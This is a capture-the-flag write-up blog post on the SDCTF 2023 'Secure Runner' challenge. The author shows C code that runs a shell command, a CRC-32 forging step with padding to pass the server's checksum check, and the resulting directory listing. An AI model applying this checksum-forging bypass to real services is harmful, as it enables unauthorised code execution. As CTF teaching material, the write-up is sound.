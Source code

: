 ```yaml
---
title: "CTF Writeup: “Secure Runner” from SDCTF 2023"
publishDate: 2023-05-08
img: /assets/sdctf-2023/challenge.png
description: While I didn’t have much time to participate in this CTF, I had a goal of solving at least one challenge, a goal that I achieved with a day to spare.
tags: 
    - CTF-writeups
---
```


In CTFs, “Misc.” challenges are some of my favorite to solve (and write): unbounded by the tropes of a defined category, they offer bits and pieces from many cybersecurity topics, and serve as a reflection of the author’s interests at the time. Secure Runner is one of those challenges: I didn’t feel like it quizzed me on any specific cybersecurity knowledge, instead the challenge felt like an exercise in the detective skills one builds up as they solve more CTF challenges.

## The Prompt

> I made a service where people can upload C code to my server and run it! The best part is that it's completely secure! Try running the number guessing game I made :)
> Connect via `cat program.c - | nc secure-runner.sdc.tf 1337`
> (program.c)[]

Just from reading the description, this sounds like the world’s easiest RCE: we can upload anything and the computer will just run it no questions asked? Let’s do some testing to actually see if this works.

## First Tests

I made (read: adapted from StackOverflow) a simple payload that uses C's system() function to list the contents of the current directory:

``` c
//inertprogram.c
#include <stdio.h>
#include <stdlib.h>


int main( int argc, char *argv[] )
{

  FILE *fp;
  char path[1035];

  /* Open the command for reading. */
  fp = popen("ls", "r");
  if (fp == NULL) {
    printf("Failed to run command\n" );
    exit(1);
  }

  /* Read the output a line at a time - output it. */
  while (fgets(path, sizeof(path), fp) != NULL) {
    printf("%s", path);
  }

  /* close */
  pclose(fp);

  return 0;
}
```

Let's see what happens when we try to upload it to the server.

``` plaintext
❯ cat inertprogram.c - | nc secure-runner.sdc.tf 1337
ERROR: Refusing to run file, invalid checksum (f2cc55a6)!
```

As we can see, the server refuses to run the file: claiming that the checksum of our file is invalid. In fact, uploading anything other than the provided C file gives us the same error. If we want to run some sort of payload, we need to bypass this checksum. Since the invalid checksum is provided to us, we can figure out what algorithm the server is using.

## Checking the Checksum

The first thing I tried was pasting the checksum into an online [hash analyzer](https://www.tunnelsup.com/hash-analyzer/). While it didn’t end up telling me the specific algorithm, it did provide me with some important information: the checksum is a 32-bit hexadecimal value. Simply searching for “32 bit hexadecimal checksum” gives us a convincing result: [CRC-32](https://en.wikipedia.org/wiki/Cyclic_redundancy_check). Running the algorithm on our file, we can see that the checksum is the same as the one given to us.

``` plaintext
❯ crc32 inertprogram.c
f2cc55a6
```

## The Exploit: Forging a CRC-32 Value

CRC-32 (and all other CRC algorithms), is not a cryptographically secure hashing algorithm: it is designed to detect transmission errors in the network, not create unique fingerprints for files. Because of this, we can easily modify our payload so it shares the same checksum as the original program. I used the Python script from [this blogpost](https://www.nayuki.io/page/forcing-a-files-crc-to-any-value) to do so.

The process is pretty simple, we:

1. Find the checksum we want to forge.
2. Find the byte offset (location in the file) we want to inset our "dummy bytes" at. I chose the end of the file, minus the 4 bytes needed for the patch.
3. Run the script.

In the shell, the process looks like this:

``` plaintext
❯ crc32 program.c
38df65f2
❯ stat -f%z inertprogram.c
428
❯ cp inertprogram.c testprogram.c
❯ python3 forcecrc32.py testprogram.c 424 38df65f2
Original CRC-32: F2CC55A6
Computed and wrote patch
New CRC-32 successfully verified
```

Now we have two different files with matching checksums:

``` plaintext
❯ crc32 program.c
38df65f2
❯ crc32 testprogram.c
38df65f2
```

## Testing Our Exploit

However, when we try to upload our program, we run into a new error:

``` plaintext
❯ cat testprogram.c - | nc secure-runner.sdc.tf 1337
ERROR: Compilation failed!
```

When we compile the program locally, the issue becomes clear: our patch overwrites part of our program, and is interpreted by the compiler, which then throws an error.

``` plaintext
❯ gcc testprogram.c
testprogram.c:26:11: error: source file is not valid UTF-8
  return 0<B8>r<U+0017><9A>
          ^
testprogram.c:26:11: error: expected ';' after return statement
  return 0<B8>r<U+0017><9A>
          ^
          ;
testprogram.c:26:14: error: source file is not valid UTF-8
  return 0<B8>r<U+0017><9A>
                       ^
testprogram.c:26:15: error: expected '}'
  return 0<B8>r<U+0017><9A>
                           ^
testprogram.c:6:1: note: to match this '{'
{
^
4 errors generated.
```

Luckily, this can be fixed by adding a comment ot the end of our program, which can be used as a buffer for our patch.

``` plaintext
❯ xxd inertprogram.c
00000000: 2369 6e63 6c75 6465 203c 7374 6469 6f2e  #include <stdio.
00000010: 683e 0a23 696e 636c 7564 6520 3c73 7464  h>.#include <std
00000020: 6c69 622e 683e 0a0a 0a69 6e74 206d 6169  lib.h>...int mai
00000030: 6e28 2069 6e74 2061 7267 632c 2063 6861  n( int argc, cha
00000040: 7220 2a61 7267 765b 5d20 290a 7b0a 0a20  r *argv[] ).{.. 
00000050: 2046 494c 4520 2a66 703b 0a20 2063 6861   FILE *fp;.  cha
00000060: 7220 7061 7468 5b31 3033 355d 3b0a 0a20  r path[1035];.. 
00000070: 202f 2a20 4f70 656e 2074 6865 2063 6f6d   /* Open the com
00000080: 6d61 6e64 2066 6f72 2072 6561 6469 6e67  mand for reading
00000090: 2e20 2a2f 0a20 2066 7020 3d20 706f 7065  . */.  fp = pope
000000a0: 6e28 226c 7322 2c20 2272 2229 3b0a 2020  n("ls", "r");.  
000000b0: 6966 2028 6670 203d 3d20 4e55 4c4c 2920  if (fp == NULL) 
000000c0: 7b0a 2020 2020 7072 696e 7466 2822 4661  {.    printf("Fa
000000d0: 696c 6564 2074 6f20 7275 6e20 636f 6d6d  iled to run comm
000000e0: 616e 645c 6e22 2029 3b0a 2020 2020 6578  and\n" );.    ex
000000f0: 6974 2831 293b 0a20 207d 0a0a 2020 2f2a  it(1);.  }..  /*
00000100: 2052 6561 6420 7468 6520 6f75 7470 7574   Read the output
00000110: 2061 206c 696e 6520 6174 2061 2074 696d   a line at a tim
00000120: 6520 2d20 6f75 7470 7574 2069 742e 202a  e - output it. *
00000130: 2f0a 2020 7768 696c 6520 2866 6765 7473  /.  while (fgets
00000140: 2870 6174 682c 2073 697a 656f 6628 7061  (path, sizeof(pa
00000150: 7468 292c 2066 7029 2021 3d20 4e55 4c4c  th), fp) != NULL
00000160: 2920 7b0a 2020 2020 7072 696e 7466 2822  ) {.    printf("
00000170: 2573 222c 2070 6174 6829 3b0a 2020 7d0a  %s", path);.  }.
00000180: 0a20 202f 2a20 636c 6f73 6520 2a2f 0a20  .  /* close */. 
00000190: 2070 636c 6f73 6528 6670 293b 0a0a 2020   pclose(fp);..  
000001a0: 7265 7475 726e 2030 3b0a 7d0a 2f2f 3030  return 0;.}.//00
000001b0: 3030 3030 3030 3030 3030 3030 3030 3030  0000000000000000 <--- Part of our comment
000001c0: 0a                                       .
❯ cp inertprogram.c testprogram.c
❯ python3 forcecrc32.py testprogram.c 432 38df65f2
Original CRC-32: F329EFA1
Computed and wrote patch
New CRC-32 successfully verified
```

## It Works!

After applying the new patch, we can upload our code and see the contents of the directory.

``` plaintext
❯ cat testprogram.c - | nc secure-runner.sdc.tf 1337
build
flag.txt
node_modules
package.json
```

Actually getting the flag is now just a simple question of reading `flag.txt` to stdout.
